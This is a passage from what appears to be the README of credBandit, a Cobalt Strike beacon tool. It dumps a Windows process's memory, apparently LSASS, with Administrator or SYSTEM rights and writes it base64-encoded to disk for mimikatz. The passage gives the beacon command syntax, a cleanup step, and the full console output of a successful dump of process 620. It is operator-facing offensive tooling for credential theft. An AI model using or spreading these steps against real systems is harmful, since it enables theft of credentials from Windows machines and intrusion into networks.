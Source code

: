 
2. Clean up the dump file to be mimikatz compatible

```
./cleanupMiniDump.sh 
```

### Use Case

> *With Administrator or SYSTEM rights, the operator can perform a memory dump and write the base64 encoded dump to a location of their choosing*

### Syntax

1. Perform memory dump and write base64 encoded memory dump to a location of your choosing on disk

```
beacon> credBandit 620 c:\users\anthem\desktop\myDump.txt
[*] Running credBandit by (@anthemtotheego)
[+] host called home, sent: 19606 bytes
[+] received output:
[+] Attempting To Enable Debug Privs

[+] received output:
[+] Attempting To Dump Proccess 620

[+] received output:
[+] NtOpenProcess returned HANDLE 0x0000000000000590

[+] received output:
[+] NtCreateTransaction returned HANDLE 0x0000000000000598

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] NtCreateFile returned HANDLE 0x000000000000059C

[+] received output:
[+] RtlSetCurrentTransaction successfully set

[+] received output:
[+] OS Version: 10.0.19042

[+] received output:
[+] MiniDump written to memory

[+] received output:
[+] MiniDump Size In Bytes = 78331860

[+] received output:
[+] NtCreateSection created

[+] received output:
[+] NtMapViewOfSection successful

[+] received output:
[+] Base64 Length In Bytes = 104442480

[+] received output:
[+] Writing file was successful

[+] received output:
[+] Dump completed
```
